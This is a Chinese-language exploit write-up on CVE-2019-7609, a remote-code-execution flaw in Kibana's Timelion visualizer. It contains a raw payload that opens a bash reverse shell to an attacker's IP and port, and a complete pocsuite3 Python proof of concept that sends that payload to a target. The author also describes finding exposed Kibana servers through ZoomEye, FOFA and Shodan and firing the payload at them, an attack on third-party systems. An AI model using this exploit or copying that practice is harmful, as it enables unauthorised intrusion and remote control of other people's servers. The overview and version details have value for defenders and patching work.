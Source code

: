 #### 0x01 漏洞概述

Elasticsearch Kibana是荷兰Elasticsearch公司的一套开源的、基于浏览器的分析和搜索Elasticsearch仪表板工具。
Kibana 5.6.15之前版本和6.6.1之前版本中的Timelion visualizer存在安全漏洞。
远程攻击者可通过发送请求利用该漏洞执行JavaScript代码并能以Kibana进程权限执行任意命令。

#### 0x02 影响版本

- ElasticSearch Kibana <5.6.15
- ElasticSearch Kibana <6.6.1

#### payload

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/IP/PORT 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

#### 复现详情

https://dylan903.coding.me/2019/10/20/kibana-rce-lou-dong-fu-xian/

https://github.com/jas502n/kibana-RCE

#### 我的复现
由于这个环境搭起来比较麻烦，所以，我暂且在网上找一些现成的环境进行复现（虽然最终也没有找到存在漏洞的环境，但是见识到真实环境的kibana比起看别人的复现文章要好一点），可以利用zoomeye或者fofa/shodan等网络空间搜索引擎搜索kibana,我这里找到几个版本符合要求的，且可以直接访问到kibana页面，不需要登录，界面如下

![](assets/kibana.png)

我这里发送payload就会报上图中的错误，可能是环境的问题

#### python_poc(基于pocsuite框架)

改编自网上现成的........
```python
#! python3
"""

@FileName: elasticsearch_kibana_rce.py
@Author: dylan
@software: PyCharm
@Datetime: 2019-10-20 15:23:54

"""
import re
from collections import OrderedDict
import json
import urllib.parse
from bs4 import BeautifulSoup
from pocsuite3.api import Output, POCBase, register_poc, requests, OptString, logger


class DemoPOC(POCBase):
    vulID = "CVE-2019-7609"  # ssvid ID 如果是提交漏洞的同时提交 PoC,则写成 0
    version = "3.0"  # 默认为1
    author = "dylan"  # PoC作者的大名
    vulDate = "2019/10/20"  # 漏洞公开的时间,不知道就写今天
    createDate = "2019/10/20"  # 编写 PoC 的日期
    updateDate = "2019/10/20"  # PoC 更新的时间,默认和编写时间一样
    references = ["https://github.com/jas502n/kibana-RCE"]  # 漏洞地址来源,0day不用写
    name = "elasticsearch_kibana_rce"  # PoC 名称
    appPowerLink = ""  # 漏洞厂商主页地址
    appName = "elasticsearch_kibana"  # 漏洞应用名称
    appVersion = "Kibana < 6.6.1,Kibana < 5.6.15"  # 漏洞影响版本
    vulType = "rce"  # 漏洞类型,类型参考见 漏洞类型规范表
    desc = """
        Need Timelion And Canvas
    """  # 漏洞简要描述
    samples = []  # 测试样列,就是用 PoC 测试成功的网站
    install_requires = []  # PoC 第三方模块依赖，请尽量不要使用第三方模块，必要时请参考《PoC第三方模块依赖说明》填写
    pocDesc = """
    pocsuite -r "elasticsearch_kibana_rce.py" -u 目标ip --ncip "监听ip" --ncport "监听端口"

    pocsuite -r "elasticsearch_kibana_rce.py" -u https://192.168.1.1 --ncip "192.168.1.1" --ncport "12345"
    """

    def _options(self):
        o = OrderedDict()
        o["ncip"] = OptString('', description='请输入监听服务器IP', require=True)
        o["ncport"] = OptString('', description='请输入监听服务器端口', require=True)
        return o

    def _verify(self):
        # 验证代码
        result = {}
        output = Output(self)
        kibana_path = self.url+"/app/kibana"
        path1 = self.url + "/app/timelion"
        print(path1)
        path2 = self.url + "/api/timelion/run"
        payload = {
            "sheet": [
                ".es(*).props(label.__proto__.env.AAAA='require(\"child_process\").exec(\"bash -i >& "
                "/dev/tcp/" + self.get_option("ncip") + "/" + self.get_option(
                    "ncport") + " 0>&1\");process.exit()//')\n.props("
                                "label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')"],
            "time": {"from": "now-15m", "to": "now", "mode": "quick", "interval": "auto",
                     "timezone": "Asia/Shanghai"}
        }
        resp = requests.get(kibana_path, verify=False, timeout=20)
        kbn_version = ''
        try:
            kbn_version = resp.headers['kbn-version']
        except Exception as e:
            logger.info(e)

        header = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0",
            'Accept': 'application/json, text/plain, */*',
            "Accept-Language": "zh-cn,zh;q=0.8,en-us;q=0.5,en;q=0.3",
            "Accept-Encoding": "gzip, deflate",
            'Connection': 'close',
            'kbn-version': kbn_version,
            'Content-Type': 'application/json;charset=UTF-8'
        }

        respose2 = requests.post(path2, headers=header, data=json.dumps(payload), verify=False, timeout=30)
        # print(respose2.status_code)
        if respose2.status_code == 200 and 'invokeTime' in respose2.text:  # result是返回结果
            result['VerifyInfo'] = {}
            result['VerifyInfo']['URL'] = self.url
            result['VerifyInfo']['Referer'] = ""
        return self.parse_output(result)

    def _attack(self):
        # 攻击代码
        return self._verify()

    def parse_output(self, result):
        output = Output(self)
        if result:
            output.success(result)
        else:
            output.fail("target is not vulnerable")
        return output


# 注册 DemoPOC 类
register_poc(DemoPOC)
```


